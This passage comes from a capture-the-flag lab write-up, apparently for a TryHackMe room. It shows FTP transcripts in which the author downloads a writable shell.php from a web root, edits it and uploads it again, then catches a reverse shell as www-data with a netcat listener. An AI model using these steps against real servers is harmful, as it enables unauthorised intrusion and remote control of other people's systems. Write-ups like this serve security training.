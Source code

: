   ```
  ftp> pwd
  Remote directory: /var/www/html
  ftp> ls -al
  229 Entering Extended Passive Mode (|||19710|)
  150 Here comes the directory listing.
  drwxr-xr-x    2 1000     1000         4096 Feb 01  2021 .
  drwxr-xr-x    3 0        0            4096 Feb 01  2021 ..
  -rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
  -rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
  226 Directory send OK.
  ftp> get shell.php
  local: shell.php remote: shell.php
  229 Entering Extended Passive Mode (|||10140|)
  150 Opening BINARY mode data connection for shell.php (5493 bytes).
  100% |************************************************************************|  5493        5.14 MiB/s    00:00 ETA
  226 Transfer complete.
  5493 bytes received in 00:00 (109.87 KiB/s)
  ```

- Download this shell to your machine since we are going to edit and get reverse shell. I explored FTP hoping that I will find something useful but I was unlucky.

---

## ⚙️ Shell Access

- Getting webshell here is simple. We already have a shell, change IP and port and put it back to the server with FTP. After that just visit the web directory and you'll get a connection.

  ```
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> put shell.php
  local: shell.php remote: shell.php
  229 Entering Extended Passive Mode (|||25994|)
  150 Ok to send data.
  100% |************************************************************************|  5493       17.57 MiB/s    00:00 ETA
  226 Transfer complete.

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.73.168] 38594
  Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
   21:16:59 up 18 min,  0 users,  load average: 0.00, 0.00, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  